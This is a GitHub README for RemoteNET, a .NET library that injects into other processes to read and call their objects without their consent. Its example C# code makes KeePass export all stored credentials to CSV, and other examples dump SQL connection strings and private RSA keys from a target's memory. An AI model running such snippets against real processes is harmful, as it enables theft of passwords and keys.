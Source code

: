 ![icon](https://raw.githubusercontent.com/theXappy/RemoteNET/main/icon.png)
# RemoteNET
This library lets you examine, create and interact with remote objects in other .NET (framework) processes.  
It's like [System.Runtime.Remoting](https://docs.microsoft.com/en-us/dotnet/api/system.runtime.remoting?view=net-5.0) except the other app doesn't need to be compiled (or consent) to support it.

Basically this library lets you mess with objects of any other .NET (framework) app without asking for permissions :)

## Compilation
1. Clone
2. Open `.sln` file in VisualStudio 2019
3. Compile (`CTRL+B`)

If you get errors of missing exes/dlls make sure the compilation order is set such that  
the C++ projects compile first, then **ScubaDiver** and then **RemoteNET**.

## Minimal Working Example
To get the essence of how easy and usefull this library can be, see below a re-implementation of [denandz/KeeFarce](https://github.com/denandz/KeeFarce).  
This example interacts with an open KeePass process and makes it export all credentials to a CSV file.  
```C#
// Gain foothold within the target process
Process keePassProc =  Process.GetProcessesByName("KeePass").Single();
RemoteApp remoteApp = RemoteApp.Connect(keePassProc);
RemoteActivator rActivator = remoteApp.Activator;

// Get a remote DocumentManagerEx object
IEnumerable<CandidateObject> candidates = remoteApp.QueryInstances("KeePass.UI.DocumentManagerEx");
RemoteObject remoteDocumentManagerEx = remoteApp.GetRemoteObject(candidates.Single());
dynamic dynamicDocumentManagerEx = remoteDocumentManagerEx.Dynamify();

// Get sensitive properties to dump
dynamic activeDb = dynamicDocumentManagerEx.ActiveDatabase;
dynamic rootGroup = activeDb.RootGroup;

// Create remote PwExportInfo object (Call Ctor)
RemoteObject pwExportInfo = rActivator.CreateInstance("KeePass.DataExchange.PwExportInfo", rootGroup, activeDb, true);

// Create remote KeePassCsv1x (Call Ctor)
RemoteObject keePassCsv1x = rActivator.CreateInstance("KeePass.DataExchange.Formats.KeePassCsv1x");
dynamic dynamicCsvFormatter = keePassCsv1x.Dynamify();

// Creating a remote FileStream object
string tempOutputFile = Path.ChangeExtension(Path.GetTempFileName(), "csv");
RemoteObject exportFileStream = rActivator.CreateInstance(typeof(FileStream), tempOutputFile, FileMode.Create);

// Calling Export method of exporter
dynamicCsvFormatter.Export(pwExportInfo, exportFileStream, null);

// Showing results in default CSV editor.
Console.WriteLine($"Output written to: {tempOutputFile}");
Process.Start(tempOutputFile);
```

## How To Use
This section documents most parts of the library's API which you'll likely need.

### ★ Setup
To start playing with a remote process you need to create a `RemoteApp` object like so:
```C#
Process target =  Process.GetProcessesByName("OtherDotNetAppName").Single();
RemoteApp remoteApp = RemoteApp.Connect(target);
```

### ★ Getting Remote Objects
RemoteNET allows you to interact with existing objects and create new ones.  
**To find existing objects** you'll need to search the remote heap.  
Use `RemoteApp.QueryInstances` to find possible candidate for the desired object and `RemoteApp.GetRemoteObject` to get a handle of a candidate.  
```C#
IEnumerable<CandidateObject> candidates = remoteApp.QueryInstances("MyApp.PasswordContainer");
RemoteObject passwordContainer = remoteApp.GetRemoteObject(candidates.Single());
```
**To create new objects** the `Activator`-lookalike can be used:
```C#
// Creating a remote StringBuilder with default constructor
RemoteObject remoteSb1 = remoteApp.Activator.CreateInstance(typeof(StringBuilder));

// Creating a remote StringBuilder with the (string,int) constructor
RemoteObject remoteSb1 = remoteApp.Activator.CreateInstance(typeof(StringBuilder), "Hello", 100);
```
Note how we used constructor arguments in the second `CreateInstance` call. Those could also be other `RemoteObject`s:
```C#
RemoteObject remoteStringBuilder = remoteApp.Activator.CreateInstance(typeof(StringBuilder));
// Constructing using the "StringWriter(StringBuilder sb)" ctor
RemoteObject remoteStringWriter = remoteApp.Activator.CreateInstance(typeof(StringWriter), remoteStringBuilder);
```

### ★ Reading Remote Fields/Properties
To allow a smooth coding expereince RemoteNET is utilizing a special dynamic object which any `RemoteObject` can turn into.  
This object can be used to access field/properties just if they were field/properties of a local object:
```C#
RemoteObject remoteStringBuilder = remoteApp.Activator.CreateInstance(typeof(StringBuilder));
dynamic dynamicStringBuilder = remoteStringBuilder.Dynamify();
Console.WriteLine("Remote StringBuilder's Capacity: " + dynamicStringBuilder.Capacity)
```
A more interesting example would be retrieving the `ConnectionString`s of every `SqlConnection` instance:
```C#
var sqlConCandidates = remoteApp.QueryInstances(typeof(SqlConnection));
foreach (CandidateObject candidate in sqlConCandidates)
{
    RemoteObject remoteSqlConnection = remoteApp.GetRemoteObject(candidate);
    dynamic dynamicSqlConnection = remoteSqlConnection.Dynamify();
    Console.WriteLine("ConnectionString: " + dynamicSqlConnection.ConnectionString);
}
```

### ★ Invoking Remote Methods
Just like accessing fields, invoking methods can be done on the dynamic objects.  
This fun examples dumps all private RSA keys (stored in `RSACryptoServiceProvider`s) which are found in the target's memory:
```C#
// Finding every RSACryptoServiceProvider instance
var rsaProviderCandidates = remoteApp.QueryInstances(typeof(RSACryptoServiceProvider));
foreach (CandidateObject candidate in rsaProviderCandidates)
{
    RemoteObject rsaProv = remoteApp.GetRemoteObject(candidate);
    dynamic dynamicRsaProv = rsaProv.Dynamify();
    // Calling remote `ExportParameters`.
    // First parameter (true) indicates we want the private key.
    dynamic parameters = dynamicRsaProv.ExportParameters(true);
    Console.WriteLine("Modulus: " + parameters.Modulus);
    Console.WriteLine("Exponent: " + parameters.Exponent);
    Console.WriteLine("D: " + parameters.D);
    Console.WriteLine("P: " + parameters.P);
    Console.WriteLine("Q: " + parameters.Q);
    Console.WriteLine("DP: " + parameters.DP);
    Console.WriteLine("DQ: " + parameters.DQ);
    Console.WriteLine("InverseQ: " + parameters.InverseQ);
}
```

## TODOs
1. Generics aren't completely supported
2. Static members
3. Support injecting to self with local diver
4. Document "Reflection API" (RemoteType, RemoteMethodInfo, ... )
5. .NET core/.NET 5
6. Support other .NET framework CLR versions. Currently supports v4.0.30319


## Thanks
**denandz** for his interesting project **KeeFarce** which was a major inspiration for this project.  
Also multiple parts of this project are directly taken from KeeFarce (DLL Injection, Bootstrap, IntPtr-to-Object converter).

**icons8** for the "Puppet" icon

**Raymond Chen** for stating this project shouldn't be done in [this blog post from 2010](https://devblogs.microsoft.com/oldnewthing/20100812-00/?p=13163).  
I really like this qoute from the post:
>If you could obtain all instances of a type, the fundamental logic behind computer programming breaks down. It effectively becomes impossible to reason about code because anything could happen to your objects at any time.
